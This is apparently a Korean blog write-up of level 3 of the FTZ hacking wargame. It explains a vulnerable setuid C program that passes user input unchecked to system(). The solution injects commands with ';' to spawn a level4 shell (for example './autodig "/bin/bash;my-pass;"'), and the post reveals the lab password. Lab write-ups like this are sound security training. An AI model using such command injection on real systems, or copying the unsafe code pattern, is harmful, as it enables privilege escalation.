 ```yaml
---
layout: post
title: ! "[FTZ] level 3"
categories: [FTZ]
excerpt: " "
comments: true
share: true
tags:
  - FTZ
---
```


id = level3 pw = level3

![]({{ site.baseurl }}/assets/posts/ftz/level3.png)
cat 으로 hint 파일을 열면

```c
[level3@ftz level3]$ cat hint

다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){
    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );
}

이를 이용하여 level4의 권한을 얻어라.

more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
```

이렇게 autodig의 소스와 힌트가 있다.
우선 setuid가 있는 파일을 찾자.
```
[level3@ftz level3]$ find / -perm -4000 -user level4 2>/dev/null
/bin/autodig
```
![]({{ site.baseurl }}/assets/posts/ftz/level3_autodig.png)

그냥 autodig 파일을 실행시키면
```
printf( "Auto Digger Version 0.9\n" );
printf( "Usage : %s host\n", argv[0] );
``` 
이 부분만 출력된다.

```
strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");
system( cmd );
```
이 코드를 보면
strcpy, strcat을 좀 알아야 하는데
autodig의 인자가 2개이면 cmd에 dig @ 를 복사해넣고, cmd에 argv[1] 의 값과 version.bind chaos txt를 이어 붙인다.
그 후 system 함수를 통해 cmd를 실행시킨다.

힌트 부분을 생각한다면

- 동시에 여러 명령어를 사용하려면?     => ; 사용
- 문자열 형태로 명령어를 전달하려면?    => " " 사용

![]({{ site.baseurl }}/assets/posts/ftz/level3_colon.png)

이런식으로 ./autodig ~~~~ ; my-pass 를 하면 현재 level3의 pw를 알아낼 수 있으므로
; 과 " 를 사용해 level4 의 쉘을 실행시키고 my-pass로 pw를 알아내는 방법이 있다.

1. ./autodig "level4;/bin/bash;"
![]({{ site.baseurl }}/assets/posts/ftz/level3_solve1.png)

2. ./autodig "/bin/bash;my-pass;"
![]({{ site.baseurl }}/assets/posts/ftz/level3_solve2.png)

Level4 Password is "suck my brain".
